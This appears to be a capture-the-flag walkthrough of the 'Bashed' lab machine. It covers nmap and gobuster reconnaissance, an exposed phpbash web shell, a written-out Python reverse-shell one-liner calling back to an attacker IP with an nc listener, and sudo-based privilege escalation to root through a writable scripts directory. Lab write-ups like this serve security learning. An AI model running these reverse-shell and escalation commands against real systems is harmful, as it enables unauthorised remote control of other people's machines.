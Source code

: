 ![[Pasted image 20240720104651.png]]

**Ping** 
```
ping 10.10.10.68
```
![[Pasted image 20240613190619.png]]

Nmap Default Scan
```
nmap 10.10.10.68 -oN dnmap
```
![[Pasted image 20240613190713.png]]
We have only one open Port.

All port Scan
```
nmap 10.10.10.68 -sC -sV -p- --open -T5 -oN anmap
```
![[Pasted image 20240613190941.png]]
No other ports found.

On Port 80
![[Pasted image 20240613190924.png]]

Gobuster Scan 
```
gobuster dir -u http://10.10.10.68// -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240613204213.png]]

/dev has some php files
![[Pasted image 20240613205528.png]]

got a semi-Interactive shell from phpbash.min.php
![[Pasted image 20240613205624.png]]

Will get Proper Reverse shell, So will check for **nc** any **python** 
```
which nc
which python
```
![[Pasted image 20240613205812.png]]

We can get reverse shell using bot nc and python, I'm going with python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.41",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240613210003.png]]
got it...!

Will upgrade the shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240613210150.png]]

Got the user.txt in home directory of user arrexel
![[Pasted image 20240613210348.png]]

Will jump to Privilege Escalation.....!

Will check sudo permissions
```
sudo -l
```
![[Pasted image 20240613211158.png]]

So we can switch to scriptmanager
```
sudo -u scriptmanager -i
```
![[Pasted image 20240613211305.png]]

So the script manager as full and root access to scripts directory
```
ls -la 
```
![[Pasted image 20240613213127.png]]

lets navigate to scripts directory and modify the mod or add new code for reverse shell as root.
![[Pasted image 20240613213229.png]]

Then execute the code to get reverse shell as root
```
python test.py
```
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240613213400.png]]

Got root.txt in root directory
![[Pasted image 20240613213440.png]]


Done with bashed......:)